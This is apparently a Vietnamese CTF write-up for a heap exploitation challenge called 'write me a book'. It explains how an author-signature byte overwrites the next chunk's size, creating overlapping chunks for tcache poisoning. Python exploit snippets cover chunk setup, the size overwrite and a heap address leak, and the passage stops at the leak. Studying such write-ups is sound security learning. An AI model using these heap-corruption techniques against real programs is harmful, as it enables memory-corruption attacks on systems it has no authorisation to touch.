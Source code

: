 # write me a book

## Ý tưởng

- Đây là một chương trình có lỗ hổng heap, tuy nhiên ta không thể double free, hay UAF một cách đơn giản vì các option đều kiểm tra idx đó có hợp lệ không, nhưng có lỗ hổng OVERLAPPING CHUNK và TCACHE POISONING.
- Lý thuyết [OVERLAPPING CHUNK](https://hackmd.io/@-igYKgCkR_aGfvddJjS3QA/SkBZQ6iBn#Khai-th%C3%A1c)
- [TCACHE POISONING](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/tcache_poisoning.c)

## Khai thác

### Stage 1: Ow chunk để tạo tcache poisoning.

- Tạo 4 chunk (tại sao phần author-sign ta gửi `sla(b"> ", b"a"*5 + p8(0x41))` tí ta sẽ đề cập )

```python
signature = b"a"*5 + b"\x41"
sla(b"> ", b"a"*5 + p8(0x41))


write(1, b"A"*0x20)
write(2, b"B"*0x1)
write(3, b"C"*0x20)
write(4, b"D"*0x20)
```

- Khi này chunk của chúng ta sẽ trông như này
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/cb962513-9a19-4b10-bb99-12d591888c6e)

- Và ta để ý sau mỗi lần write hay rewrite đều có `*v0 = author_signature;` sau tên sách, và lúc này dòng `v4 = read(0, *((void **)&unk_4040E8 + 2 * v3), *((_QWORD *)&books + 2 * v3));` sẽ tạm hiểu là `read(0,địa chỉ chunk 1, 0x30)` và sau đó nó gắn cái `author_sign` vào nhưng không hề kiểm tra size sau khi gắn author_sign vào nó có còn trong 0x30 byte không, và khi này ta thấy đã bị ow fw_pointer của chunk 2

- Bây giờ rewrite chunk 1 `edit(1, b"a" * 0x30)`, chunk 2 sẽ như này
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/467d6baf-4989-442d-b6d3-74efffb0e98d)
- Chunk 2 đã thay đổi size và cập nhật lại, vì khi nhập 0x30 byte ở chunk 1 + (3 + 6) byte ở author_sign, một byte cuối cùng của author_sign, ghi đè size của chunk 2
- 0x41 byte vì hình như malloc tối đa 0x41 byte thoi
- Leak heap:

```python
def leak(idx: int) -> int:
    sla(b"Option:", b"1337")
    sla(b"What is your favourite number?", str(idx).encode("ascii"))
    p.recvuntil(b"You found a secret message: ")
    leak = int(p.recvuntil(b"\n").replace(b"\n", b"").decode("ascii"), 16)
    return leak
heap_addr = leak(3)

```
